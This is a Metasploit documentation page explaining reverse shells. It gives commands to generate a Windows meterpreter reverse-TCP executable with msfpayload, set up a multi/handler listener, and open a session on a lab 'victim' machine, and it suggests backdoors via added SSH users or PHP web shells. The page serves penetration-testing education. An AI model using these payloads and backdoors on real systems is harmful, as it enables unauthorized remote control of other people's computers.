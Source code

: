 ## On this page
* [List of Metasploit reverse shells](#list-of-metasploit-reverse-shells)
  * [Windows common reverse shell](#windows-common-reverse-shell)
  * [Linux common reverse shell](#linux-common-reverse-shell)
* [When to use a reverse shell](#when-to-use-a-reverse-shell)
* [When a reverse shell isn't needed](#when-a-reverse-shell-isnt-needed)
* [How to set up for a reverse shell during payload generation](#how-to-set-up-for-a-reverse-shell-during-payload-generation)
* [Demonstration](#demonstration)
  * [Step 1: Generate the executable payload](#step-1-generate-the-executable-payload)
  * [Step 2: Copy the executable payload to box B](#step-2-copy-the-executable-payload-to-box-b)
  * [Step 3: Set up the payload handler on box A](#step-3-set-up-the-payload-handler-on-box-a)
  * [Step 4: Double-click on the malicious executable](#step-4-double-click-on-the-malicious-executable)
  * [Step 5: View the meterpreter/payload session on box A](#step-5-view-the-meterpreterpayload-session-on-box-a)

There are two popular types of shells: bind and reverse. 
Bind shell - Opens up a new service on the target machine and requires the attacker to connect to it to get a session.
Reverse shell - A reverse shell is also known as a connect-back. It requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally, the attacker receives the shell. 

You can learn more about the primary use of payloads in the 5.2.4 Selecting the Payload section of the old [Metasploit Users Guide](http://cs.uccs.edu/~cs591/metasploit/users_guide3_1.pdf).

This article goes over using a reverse shell to get a session.

## List of Metasploit reverse shells
 
To get a list of reverse shells, use the `msfpayload` command. B

```bash
./msfpayload -l |grep reverse
```

As a rule of thumb, always pick a Meterpreter, because it currently provides better support of the post-exploitation Metasploit has to offer. For example, railgun, post modules, different meterpreter commands.

### Windows common reverse shell

 In Windows, the most commonly used reverse shell is `windows/meterpreter/reverse`.  You can also use `windows/meterpreter/reverse_http` or `windows/meterpreter/reverse_https` because their network traffic appears a little bit less abnormal.

### Linux common reverse shell

In Linux, you can try `linux/x86/meterpreter/reverse_tcp`, or the 64-bit one. The `linux/x86/shell_reverse_tcp` has been the most stable.

## When to use a reverse shell

If you find yourself in one of the following scenarios, then you should consider using a reverse shell:

* The target machine is behind a different private network.
* The target machine's firewall blocks incoming connection attempts to your bindshell.
* Your payload is unable to bind to the port it wants due to whatever reason.
* You can't decide what to choose.

## When a reverse shell isn't needed

Generally speaking, if you can backdoor an existing service, you may not need a reverse shell. For example, if the target machine is already running an SSH server, then you can try adding a new user to it and use that.

If the target machine is running a web server that supports a server-side programming language, then you can leave a backdoor in that language. For example, many Apache servers support PHP, then you can use a PHP "web shell". IIS servers usually support ASP or ASP.net. The Metasploit Framework offers payloads in all these languages and many others.

This also applied to VNC, remote desktop, SMB (psexec), or other remote admin tools, etc.

## How to set up for a reverse shell during payload generation

When you generate a reverse shell with either `msfpayload` or `msfvenom`, you must know how to configure the following:

* **LHOST** - This is the IP address you want your target machine to connect to. If you're in a local area network, it is unlikely your target machine can reach you unless you both are on the same network. In that case, you will have to [find out your public-facing IP address](https://www.google.com/webhp?q=ip#q=ip), and then configure your network to port-forward that connection to your box. LHOST should not be "localhost", or "0.0.0.0", or "127.0.0.1", because if you do, you're telling the target machine to connect to itself (or it may not work at all).
* **LPORT** - This the port you want your target machine to connect to.

When you set up a listener for the reverse shell, you also at least need to configure LHOST and LPORT, but slightly different meanings (different perspective):

* **LHOST** - This is the IP address you want your listener to bind to.
* **LPORT** - This is the port you want your listener to bind to.

You should make sure the listener has started first before executing the reverse shell.

## Demonstration

In this demonstration, we have two boxes:

**Box A:**

* The attacker's box that receives the payload session
* IP is: 192.168.1.123 (ifconfig)
* On the same network as the victim machine

**Box B:**

* The "victim" machine
* Windows XP
* IP is: 192.168.1.80 (ipconfig)
* On the same network as the attacker machine
* For testing purposes, no antivirus enabled.
* For testing purposes, no firewall enabled, either.

### Step 1: Generate the executable payload

On the attacker's box, run `msfpayload` or `msfvenom`: 

```bash
$ ./msfpayload windows/meterpreter/reverse_tcp lhost=192.168.1.123 lport=4444 X > /tmp/iambad.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/meterpreter/reverse_tcp
Length: 287
Options: {"LHOST"=>"192.168.1.123", "LPORT"=>"4444"}
```

### Step 2: Copy the executable payload to box B

Box B is the victim machine. 

### Step 3: Set up the payload handler on box A

Box A is the attacker machine. 

```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
```

### Step 4: Double-click on the malicious executable

This step requires no further explanation.

### Step 5: View the meterpreter/payload session on box A 

```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.123:4444 -> 192.168.1.80:1138) at 2014-10-22 19:03:43 -0500
meterpreter >
```

The meterpreter prompt means you are currently interacting with the payload.
